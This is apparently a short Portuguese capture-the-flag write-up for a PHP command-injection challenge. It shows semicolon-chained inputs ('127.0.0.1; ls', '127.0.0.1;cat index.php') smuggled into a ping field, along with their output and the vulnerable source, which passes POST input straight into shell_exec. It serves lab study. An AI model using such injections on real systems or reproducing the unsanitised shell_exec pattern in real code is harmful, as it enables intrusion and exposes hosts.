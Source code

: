 # PHP - Command injection

É possível embutir um segundo comando com ponto e vírgula (;). Então usamos ls para visualizar o arquivo index.php no diretório, cat para lê-lo e depois visualizar a flag pelo código fonte:

<pre>127.0.0.1; ls
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.050 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.036 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.036/0.040/0.050/0.009 ms
index.php</pre>

<pre>127.0.0.1;cat index.php
< ?php 
$flag = "(flag_here)";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?></pre>
